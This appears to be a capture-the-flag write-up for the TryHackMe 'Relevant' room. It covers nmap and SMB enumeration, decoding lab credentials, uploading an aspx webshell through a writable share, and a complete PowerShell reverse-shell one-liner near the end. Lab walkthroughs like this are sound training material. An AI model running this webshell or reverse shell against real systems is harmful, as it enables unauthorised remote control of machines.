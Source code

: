 # Revelant

![image](https://user-images.githubusercontent.com/5285547/129174199-a0b07f6d-f4bf-4392-9ac2-cbde55554e84.png)

Room link: https://tryhackme.com/room/relevant

## Enum 

### Nmap 

```
nmap -Pn -v 10.10.127.215

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown

nmap -Pn -v -p80,135,139,445,3389,49663,49667,49669 -sCV 10.10.127.215

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-12T09:53:48+00:00
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-11T09:33:28
| Not valid after:  2022-02-10T09:33:28
| MD5:   f94f cb19 c957 e463 6a5a dc04 f356 0d18
|_SHA-1: 61a7 eb4a b3e7 72cf 6619 234f 2cd8 b2fd a709 7148
|_ssl-date: 2021-08-12T09:54:22+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m01s, deviation: 3h07m50s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-12T02:53:43-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T09:53:43
|_  start_date: 2021-08-12T09:34:06
```

Nmap results

We can see from the results a the domain name is "Relevant", their are web portals on port 80,49663 (Microsoft-IIS/10.0 servers).  
This shows SMB is open, let's look into the SMB first. 

### SMB

```
$ smbclient -L 10.10.127.215                
Enter WORKGROUP\ac1d's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```

Connecting we get a file called passwords.txt

![image](https://user-images.githubusercontent.com/5285547/129176481-a8ae0710-f356-49c2-b0e2-18645e6b6d49.png)

passwords.txt

```
$ cat passwords.txt     
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk 
```

Decoded

```
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$
```

Trying psexec shows we have working creds for bob but not bill

![image](https://user-images.githubusercontent.com/5285547/129179521-7337874d-d25d-4905-8eb6-c30bb1d8061a.png)

![image](https://user-images.githubusercontent.com/5285547/129179581-59ddec12-1498-4cf0-9b59-53b232b8d73d.png)


 At this point I got a bit stuck so decided to enum some more, I started on port 80 but didnt find anything.  
 Then moved to port 49663
 
 ```
gobuster dir -u http://10.10.179.217:49663/  -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 
 
 ```


We have READ/WRITE access to the smb share so I tested a file upload which worked. 

![image](https://user-images.githubusercontent.com/5285547/129181840-bdaac284-f23e-42d8-abd6-5e383cf76e4e.png)

![image](https://user-images.githubusercontent.com/5285547/129181810-872aec0e-3db2-4211-ae3d-4a430c14dfe1.png)

Testing a meterpreter reverse shell (.exe) failed. So I tested a few more payloads until .aspx worked.

cmdasp.aspx shell located on kali /usr/share/webshells/aspx/

![image](https://user-images.githubusercontent.com/5285547/129187032-0f138d8c-da37-4928-8cbc-17ef57ad4022.png)

Using a powershell payload I get a reverse shell. 

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.8.153.120",8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

